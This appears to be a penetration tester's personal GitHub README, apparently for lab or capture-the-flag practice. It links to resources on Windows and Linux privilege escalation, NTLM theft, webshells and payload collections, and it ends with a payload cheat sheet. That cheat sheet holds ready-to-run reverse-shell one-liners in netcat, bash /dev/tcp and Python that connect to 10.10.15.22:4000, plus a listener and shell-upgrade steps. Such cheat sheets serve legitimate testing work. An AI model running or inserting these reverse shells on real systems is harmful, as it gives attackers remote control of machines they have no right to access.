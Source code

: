 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Pentesting
### Microsoft SQL Server 
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
### Windows Privillage Escalation
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Windows Local Privillage Escalation Checklist**](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
## Hash Cracking

- [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
- [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
- [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)
## Log4J
- [**Log4j Exploatation**](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
## Payloads
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)

## Linux Privillage Escalation
- [**GTFO bins **](https://gtfobins.github.io/)
- [**LXD Privillage Escalation **]("https://www.hackingarticles.in/lxd-privilege-escalation/")
- [**LXD Exploatation **](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)
## Shells
- [**Webshells**](https://github.com/BlackArch/webshells)
- [**Reverse Shell Generator**](https://www.revshells.com/)
- [**NC.EXE**](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
## Tools
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Responder**](https://github.com/SpiderLabs/Responder)
- [**Impacket**](https://github.com/SecureAuthCorp/impacket)
- [**SQL Map**](https://github.com/sqlmapproject/sqlmap)
- [**XSS Strike**](https://github.com/s0md3v/XSStrike)
- [**ffuf**](https://github.com/ffuf/ffuf)
- [**WinPeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [** Rogue JNDI **](https://github.com/veracode-research/rogue-jndi)
# Payloads
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```

#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
